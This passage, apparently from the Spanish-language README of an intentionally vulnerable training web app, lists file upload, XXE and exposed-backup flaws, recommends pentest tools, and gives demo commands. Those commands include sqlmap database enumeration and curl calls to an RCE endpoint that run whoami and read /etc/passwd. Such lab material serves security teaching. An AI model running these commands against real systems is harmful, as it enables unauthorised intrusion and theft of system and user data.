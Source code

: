 ### 8. File Upload Vulnerability (CWE-434)
**Endpoint**: `POST /admin/upload`
**Riesgo**: Alto
**Descripción**: Subida de archivos sin validación de tipo o contenido.

### 9. XML External Entity - XXE (CWE-611)
**Endpoint**: `POST /admin/xml`  
**Riesgo**: Alto
**Descripción**: Procesamiento XML vulnerable a ataques XXE.

### 10. Backup Files Exposure (CWE-200)
**Endpoints**: `/backup/{filename}`
**Archivos**: database.sql, config.bak, users.csv
**Riesgo**: Alto
**Descripción**: Archivos de respaldo accesibles públicamente.

---

## HERRAMIENTAS DE DETECCIÓN RECOMENDADAS

### Reconocimiento:
- `theHarvester -d tu-dominio.com -b google`
- `whois tu-dominio.com`

### Exploración:
- `nmap -sS -sV -O tu-app.koyeb.app`
- `nessus` - Vulnerability scan
- `openvas` - Comprehensive security scan

### Enumeración:
- `gobuster dir -u https://tu-app.koyeb.app -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `dirb https://tu-app.koyeb.app /usr/share/wordlists/dirb/common.txt`

### Explotación:
- `sqlmap -u "https://tu-app.koyeb.app/admin/user/1" --dbs`
- `msfconsole` - Para exploits de RCE
- `curl` - Para pruebas manuales

### Análisis:
- `nikto -h https://tu-app.koyeb.app`
- `burpsuite` - Proxy para interceptar tráfico

---

## COMANDOS DE DEMOSTRACIÓN

```bash
# 1. Reconocimiento
nmap -sS -sV tu-app.koyeb.app

# 2. Enumeración de directorios  
gobuster dir -u https://tu-app.koyeb.app -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# 3. Information Disclosure
curl https://tu-app.koyeb.app/debug/server-info

# 4. RCE Exploit
curl "https://tu-app.koyeb.app/admin/execute?cmd=whoami"
curl "https://tu-app.koyeb.app/admin/execute?cmd=cat /etc/passwd"
```